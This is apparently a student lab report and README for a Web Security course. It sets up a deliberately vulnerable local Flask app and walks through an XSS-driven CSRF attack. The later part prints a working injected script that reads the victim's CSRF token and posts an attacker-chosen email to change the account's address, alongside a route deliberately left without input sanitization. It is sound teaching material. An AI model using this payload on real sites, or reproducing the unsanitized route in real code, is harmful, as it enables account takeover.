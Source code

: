 # CSRF-Web-Security
Simple Flask application containing a vulnerable's website. Cross-Site Request Forgery assignment for Web Security course

## Run the app with the following commands
You can try to perform the attack using the script provided at the end of the readme.

### Put these lines in you hosts file
```text
127.0.0.1 www.attacker.com
127.0.0.1 www.vulnerable.com
```
### Run these commands into your app's folder
```bash
$ export FLASK_APP=app.py; flask run
```
And search for http://www.vulnerable.com:5000 in your browser (log in with credentials provided in user.py file)

# CSRF and XSS Vulnerability Lab Report
Written by Elisa Rizzo, Pietro Visconti

## Introduction:
CSRF attacks aim to induce the victim to perform involuntary actions through which the attacker can modify or delete private information, or gain control of the target account.

## Attack Description:
The chosen challenge is the last one proposed, regarding the use of an XSS vulnerability to implement a CSRF attack with the purpose of modifying the email of every user who visits the page containing the injected script.

In this case, the attack consists of injecting a script that makes a request to the **my-account/change-password** endpoint. The focal point is to retrieve the victim's CSRF token so that the request created by the attacker is accepted. To do this, the script needs to access the document body and access the csrf attribute, as will be further detailed in the section regarding the attack reproduction on our Flask application.

## Vulnerability in Flask Application:
To build the Flask application, we started from the application provided in the previous exercise and modified it to include the XSS vulnerability necessary to trigger the CSRF attack.

Firstly, we configured the vulnerable site to include `flask_wtf.csrf`, the library required to activate protection against CSRF attacks, which generates a new token for each request, making the ones already used obsolete.

```python
from flask_wtf.csrf import CSRFProtect

csrf = CSRFProtect()
csrf.init_app(app)
```

Additionally, we added a new route to allow users to change their email. This route retrieves the email field from the request body and assigns it to the user's email field.

```python
@vulnerable_blueprint.route("/change-email", methods=["POST"], host=VULNERABLE_DOMAIN)
def change_email():
    user = get_current_user()
    user.email = request.form.get('email');
    return user.email
```

The form for submitting the post includes a hidden input field, csrf_token, containing the CSRF token value to ensure the user's identity before the actual submission. No input sanitization is performed, introducing an XSS vulnerability that can be exploited to include tags, such as the script tag used in the actual attack, within the post body.

The attacker's script consists of the following steps:
1. It calls the `window.addEventListener('DOMContentLoaded')` function to execute the script once the HTML page is fully loaded in the client's browser.
2. Within the callback of this function, the CSRF attack is executed.
3. The CSRF token is retrieved from the DOM and stored in the `csrf` variable.
4. A `FormData` variable is created to create a form and fill it with the inputs that will be transmitted in the request body.
5. The following fields are added to the form:
   - `csrf_token`, required for the successful execution of the request.
   - the email chosen by the attacker.
6. An `XMLHttpRequest` variable is created and configured to make a `POST` request to the `/change-email` endpoint of the vulnerable site.
7. Finally, the request is sent.

```javascript
<script>
    window.addEventListener('DOMContentLoaded', function() {
        let csrf = document.getElementsByName("csrf_token")[0].value;
        let data = new FormData();
        data.append('csrf_token', csrf);
        data.append('email', 'lol@gmail.com');
        var xhttp = new XMLHttpRequest();
        xhttp.open("POST", "http://www.vulnerable.com:5000/change-email", false);
        xhttp.send(data);
    });
</script>
```
